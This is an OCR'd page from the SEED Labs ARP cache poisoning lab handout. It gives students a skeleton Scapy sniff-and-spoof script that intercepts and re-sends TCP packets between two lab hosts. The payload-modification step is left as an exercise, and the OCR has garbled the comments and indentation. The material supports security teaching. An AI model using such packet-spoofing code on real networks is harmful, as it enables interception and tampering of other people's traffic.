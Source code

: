 B: Telnet Server

SEED Labs – ARP Cache Poisoning Attack Lab

7

make any change, so the spoofed packet is exactly the same as the original one.

To help students get started, we provide a skeleton sniff-and-spoof program in the following. The pro-gram capture all the TCP packets, and then for packets from A to B, it makes some changes (the modification part is not included, because that is part of the task). For packets from B to A, the program does not make any change.

#!/usr/bin/env python3

from scapy.all import *

IP_A = “10.9.0.5”

MAC_A = “02:42:0a:09:00:05”

IP_B = “10.9.0.6”

MAC_B = “02:42:0a:09:00:06”

def spoof_pkt(pkt):

if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:

Create a new packet based on the captured one.

1) We need to delete the checksum in the IP & TCP headers,

because our modification will make them invalid.

Scapy will recalculate them if these fields are missing.

2) We also delete the original TCP payload.

newpkt = IP(bytes(pkt[IP]))

del(newpkt.chksum)

del(newpkt[TCP].payload)

del(newpkt[TCP].chksum)

#################################################################

Construct the new payload based on the old payload.

Students need to implement this part.

if pkt[TCP].payload:

data = pkt[TCP].payload.load # The original payload data newdata = data # No change is made in this sample code

send(newpkt/newdata)

else:

send(newpkt)

################################################################

